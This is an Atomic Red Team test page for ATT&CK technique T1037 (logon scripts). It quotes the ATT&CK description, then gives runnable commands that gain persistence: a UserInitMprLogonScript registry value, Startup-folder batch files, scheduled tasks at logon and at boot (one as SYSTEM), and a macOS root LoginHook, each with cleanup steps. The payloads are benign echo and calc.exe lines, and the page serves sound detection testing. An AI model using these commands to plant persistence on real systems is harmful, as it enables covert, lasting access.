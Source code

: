 # T1037 - Logon Scripts
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1037)
<blockquote>### Windows

Windows allows logon scripts to be run whenever a specific user or group of users log into a system. (Citation: TechNet Logon Scripts) The scripts can be used to perform administrative functions, which may often execute other programs or send information to an internal logging server.

If adversaries can access these scripts, they may insert additional code into the logon script to execute their tools when a user logs in. This code can allow them to maintain persistence on a single system, if it is a local script, or to move laterally within a network, if the script is stored on a central server and pushed to many systems. Depending on the access configuration of the logon scripts, either local credentials or an administrator account may be necessary.

### Mac

Mac allows login and logoff hooks to be run as root whenever a specific user logs into or out of a system. A login hook tells Mac OS X to execute a certain script when a user logs in, but unlike startup items, a login hook executes as root (Citation: creating login hook). There can only be one login hook at a time though. If adversaries can access these scripts, they can insert additional code to the script to execute their tools when a user logs in.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Logon Scripts](#atomic-test-1---logon-scripts)

- [Atomic Test #2 - Startup Folder Script](#atomic-test-2---startup-folder-script)

- [Atomic Test #3 - Scheduled Task Startup Script](#atomic-test-3---scheduled-task-startup-script)

- [Atomic Test #4 - Logon Scripts - Mac](#atomic-test-4---logon-scripts---mac)


<br/>

## Atomic Test #1 - Logon Scripts
Adds a registry value to run batch script created in the C:\Windows\Temp directory.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| script_path | Path to .bat file | String | $env:SystemRoot\Temp\art.bat|
| script_command | Command To Execute | String | echo Art "Logon Script" atomic test was successful. >> %USERPROFILE%\desktop\T1037-log.txt|


#### Attack Commands: Run with `command_prompt`! 
```
echo cmd /c "#{script_command}" > #{script_path}
REG.exe ADD HKCU\Environment /v UserInitMprLogonScript /t REG_SZ /d "#{script_path}"
```

#### Cleanup Commands:
```
REG.exe DELETE HKCU\Environment /v UserInitMprLogonScript /f
```





<br/>
<br/>

## Atomic Test #2 - Startup Folder Script
A batch file created to run on startup when placed in the start menu folder

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_command | Path to .bat file | String | echo Art `"Startup Folder Script`" atomic test for $env:USERNAME was successful. >> $env:USERPROFILE\desktop\T1037-log.txt|
| system_command | Command To Execute | String | echo Art `"Startup Folder Script`" atomic test for $env:COMPUTERNAME was successful. >> $env:USERPROFILE\desktop\T1037-log.txt|

#### Attack Commands: Run with `powershell`! 
```
New-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\T1037.bat" -force
Set-Content "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\T1037.bat" "cmd /c #{user_command}"
New-Item "$env:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\T1037.bat" -force
Set-Content "$env:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\T1037.bat" "cmd /c #{system_command}"
```

#### Cleanup Commands:
```
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\T1037.bat"
Remove-Item "$env:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\T1037.bat"
```





<br/>
<br/>

## Atomic Test #3 - Scheduled Task Startup Script
Run an exe on user logon or system startup

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
schtasks /create /tn "T1037_OnLogon" /sc onlogon /tr "cmd.exe /c calc.exe"
schtasks /create /tn "T1037_OnStartup" /sc onstart /ru system /tr "cmd.exe /c calc.exe"
```

#### Cleanup Commands:
```
schtasks /delete /tn "T1037_OnLogon" /f
schtasks /delete /tn "T1037_OnStartup" /f
```





<br/>
<br/>

## Atomic Test #4 - Logon Scripts - Mac
Mac logon script

**Supported Platforms:** macOS


#### Run it with these steps! 1. Create the required plist file

    sudo touch /private/var/root/Library/Preferences/com.apple.loginwindow.plist

2. Populate the plist with the location of your shell script

    sudo defaults write com.apple.loginwindow LoginHook /Library/Scripts/AtomicRedTeam.sh

3. Create the required plist file in the target user's Preferences directory

	  touch /Users/$USER/Library/Preferences/com.apple.loginwindow.plist

4. Populate the plist with the location of your shell script

	  defaults write com.apple.loginwindow LoginHook /Library/Scripts/AtomicRedTeam.sh







<br/>
